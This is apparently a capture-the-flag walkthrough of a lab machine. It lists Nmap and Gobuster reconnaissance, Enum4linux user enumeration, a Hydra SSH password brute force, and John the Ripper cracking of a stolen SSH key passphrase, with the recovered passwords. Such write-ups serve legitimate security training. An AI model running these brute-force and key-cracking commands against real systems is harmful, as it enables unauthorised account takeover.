```bash
export IP=10.10.78.53
```

# Nmap

Open ports:

```
22 ssh
80 http
139 netbios-ssn Samba
445 netbios-ssn Samba
```

# Gobuster

Hidden directory: ```/development```

User "J" has a weak password (from "/development/j.txt")

# Enum4linux

```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.78.53 | tee enum.log
```

Found 2 users:
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

# Hydra

```bash
hydra -l jan -P /usr/share/nmap/nselib/data/passwords.lst -V ssh://$IP
```

Found password for jan: armando

# SSH

```bash
ssh jan@$IP
```
Found .ssh directory in /home/kay

# JohnTheRipper

```bash
/opt/john/run/ssh2john.py kay_id_rsa > forjohn.txt

john forjohn.txt --wordlist=/opt/rockyou.txt
```

Found the password for rsa "beeswax" via rockyou

```bash
Enter passphrase for key 'kay_id_rsa': beeswax
```









